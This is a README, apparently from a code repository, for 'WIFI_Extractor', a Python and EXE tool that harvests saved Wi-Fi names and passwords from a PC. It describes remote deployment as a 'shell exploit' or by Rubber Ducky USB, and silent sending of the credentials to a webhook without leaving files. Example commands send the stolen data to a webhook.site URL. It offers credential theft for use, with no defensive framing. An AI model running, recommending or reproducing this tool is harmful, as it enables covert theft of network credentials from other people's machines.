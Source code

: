 # WIFI_Extractor

if you run it with python you might need this requeriments
Si lo ejecutas con python tal vez podrias necesitar estos requerimientos


pip install click

pip install elementpath

pip install requests

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used offline, physically (rubber ducky)

Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
Tambien se puede usar offline, físicamente con un pendrive(rubby ducky)

Usage: E_WIFI.py [OPTIONS]


Options:

  -u, --url TEXT      Webhook/POST URL
  
  -o, --only-webhook  Only send data to webhook (whithout creating the txt file) need to specify the url with -u Envía los datos
                      solo a la webhook (sin crear el archivo txt) necesitas especificar la url con -u
                      
  -v, --version       Imprime la version | Prints the version
  
  --help              Show this message and exit.
  

Offline

python3 E_WIFIoffline.py

CMD or Powershell ./E_WIFIoffline.exe (You can also double click it)

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Online

Usages

default usage
python3 E_WIFI.py

CMD or Powershell ./E_WIFI.exe

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Another Example

python3 E_WIFI.py -o -u https://webhook.site/yoururl 
CMD or Powershell ./E_WIFI.exe -o -u https://webhook.site/yoururl

type --help for more detailed info

PD: Extracciones.txt is the txt with the wifis credentials
